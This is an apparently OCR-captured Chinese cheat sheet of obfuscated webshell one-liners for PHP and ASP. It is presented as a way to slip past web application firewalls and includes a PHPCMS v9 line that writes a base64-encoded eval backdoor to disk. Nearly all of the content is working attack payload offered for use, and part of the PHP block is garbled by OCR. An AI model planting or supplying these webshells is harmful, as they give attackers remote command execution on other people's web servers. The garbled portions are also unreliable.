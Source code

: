 ### 几个变性的php过防火墙

过狗效果都不错：（密码-7）

```php
<?php $a = str_replace(x,"","axsxxsxexrxxt");$a($_POST["sz"]); ?> <?php $lang = (string)key($_POST);$lang($_POST['sz']); ?> <?php $k="ass"."ert"; $k(${"_PO"."ST"} ['sz']);?> <?php $a = "a"."s"."s"."e"."r"."t"; $a($_POST["sz"]); ?>
这个是90发的<?php


@$_=“s”.“s”./-/-/“e”./-/-/“r”;


@= / ∗ − / ∗ − ∗ / &quot; a &quot; . / ∗ − / ∗ − ∗ / _=/*-/*-*/&quot;a&quot;./*-/*-*/ 
=

 /∗−/∗−∗/"a"./∗−/∗−∗/_./-/-*/“t”;


@/ ∗ − / ∗ − ∗ / ( _/*-/*-*/( 
/

 ∗−/∗−∗/(/-/-/{"_P"./-/-/“OS”./-/-*/“T”}


[/-/-/0/-/-/-/-/-/2/-/-/-/-/-/5/-/-/]);?>
```

### phpv9 高版本拿shell

```php
<?php file_put_contents('c7.php',base64_decode('PD9waHAgQGV2YWwoJF9QT1NUW2NjMjc4OV0pOz8+')); ?>
…/…/…/…/html/special/cc/index
```

## ASP

### asp 一句话

```asp
<%execute(request(“cmd”))%>
<%execute request(“1”)%>
ASP一句话16进制：┼攠數畣整爠煥敵瑳∨≡┩愾 密码a
"%><%Eval(Request(chr(112)))%><%’ p


<%Y=request(“xindong”)%> <%execute(Y)%>


<%eval (eval(chr(114)+chr(101)+chr(113)+chr(117)+chr(101)+chr(115)+chr(116))(“xindong”))%>


<%eval""&(“e”&“v”&“a”&“l”&"("&“r”&“e”&“q”&“u”&“e”&“s”&“t”&"("&“0”&"-"&“2”&"-"&“5”&")"&")")%>（密码是-7）
```
